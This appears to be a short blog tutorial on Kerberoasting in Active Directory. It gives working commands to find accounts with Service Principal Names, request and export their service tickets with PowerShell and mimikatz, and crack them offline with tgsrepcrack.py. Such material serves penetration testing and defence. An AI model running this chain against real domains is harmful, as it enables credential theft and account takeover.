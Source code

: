 ```yaml
---
layout: post
title: "Kerberoasting Active Directory Accounts"
date: 2022-07-09
---
```


## Identifying User Objects Vulnerable to Kerberoasting
<p>The below PowerShell command identifies user objects that have a Service Principal Name (SPN). Any user object with a SPN is vulnerable to kerberoasting. The below command requires the Active Directory PowerShell module.</P> 

~~~powershell
Get-ADUser -filter {(ServicePrincipalName -like "*") -and (Enabled -eq $true)} -Properties ServicePrincipalName, PasswordLastSet | Select Name, ServicePrincipalName, PasswordLastSet
~~~

<p>After identifying user objects configured with a SPN, the below commands can be entered into PowerShell to retrieve the service ticket for the user object and store it in memory. The service ticket contains the encrypted password for the user object. If the user object is configured with a weak password, it may be possible to crack it and reveal the clear text password.</p>

~~~powershell
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "InsertSPNNameHere"
~~~

<p>After retrieving the service ticket into memory. A tool such as <a href="https://github.com/gentilkiwi/mimikatz" title="mimikatz">mimiktaz</a> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>

~~~cmd
mimikatz # kerberos::list /export
~~~

<p>The kirbi file can now be taken offline and cracked to reveal the clear text password. The <a href="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" title="tgsrepcrack.py">tgsrepcrack Python script</a> and a wordlist can be used to crack the clear text password. Below is the required syntax:</p>

~~~bash
python3 tgsrepcrack.py dictionaryfile .kirbifile
~~~

<p>The following screenshot shows a service ticket being successfully cracked to reveal the clear text password</p>

![crackedspnexample](/assets/crackspn.png)